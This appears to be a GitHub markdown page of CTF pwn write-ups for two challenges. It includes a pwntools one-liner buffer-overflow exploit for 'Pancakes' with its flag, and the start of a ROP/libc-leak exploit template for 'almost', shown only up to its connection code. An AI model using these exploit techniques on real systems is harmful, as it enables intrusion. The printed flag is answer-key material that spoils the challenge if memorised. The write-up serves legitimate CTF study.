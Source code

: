 
# hacktivity ctf pwn-writeups.

## Pancakes
Points - 75
How many flap-jacks are on your stack?

Connect with:
nc jh2i.com 50021

There was a buffer-overflow and a flag function,
so i return to that function.
##### here's the one-liner.
```py
python -c "from pwn import *;p = remote('jh2i.com', 50021);p.recv();p.sendline('A'*0x90+p64(0x40098B));p.interactive()
```
##### flag{too_many_pancakes_on_the_stack}.


## almost

Almost
100
Oh, just so close!

Connect here:
nc jh2i.com 50017

Another simple buffer-overflow, 32-bit with no-pie,
just simple ROP, leak libc and call system.
#### exploit
```py
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *
context.arch='i386'
exe = context.binary = ELF('./almost')

host = args.HOST or 'jh2i.com'
port = int(args.PORT or 50017)

def local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return local(argv, *a, **kw)
    else:
        return remote(argv, *a, **kw)

```